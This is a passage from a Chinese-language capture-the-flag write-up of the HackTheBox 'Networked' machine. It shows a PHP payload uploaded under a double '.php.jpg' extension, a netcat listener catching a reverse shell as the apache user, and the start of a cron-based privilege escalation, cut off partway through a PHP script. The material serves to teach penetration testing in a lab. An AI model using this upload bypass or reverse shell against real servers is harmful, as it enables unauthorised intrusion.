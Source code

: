 Content-Disposition: form-data; name="myFile"; filename="portal.php.jpg"

Content-Type: image/jpeg



<?php phpinfo(); ?>
```

然后去到```photos.php```页面，在网页源代码里找到图片地址，新窗口打开以后就可以打印phpinfo内容


# webshell

把上传的php playload换成revers shell，拿到立足点：

```
┌──(root💀kali)-[~/htb/Networked]
└─# nc -lnvp 4242
listening on [any] 4242 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.146] 49530
Linux networked.htb 3.10.0-957.21.3.el7.x86_64 #1 SMP Tue Jun 18 16:35:19 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 07:26:56 up  4:12,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$ whoami
whoami
apache

```

apache身份无法读取user.txt，需要提权到另一个账号```guly```


```guly```下有另外两个文件，一一查看

crontab.guly
```
bash-4.2$ cat crontab.guly
cat crontab.guly
*/3 * * * * php /home/guly/check_attack.php

```

每三分钟会以guly的身份执行一次```check_attack.php```

查看```check_attack.php```内容
```
bash-4.2$ cat check_attack.php
cat check_attack.php
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";
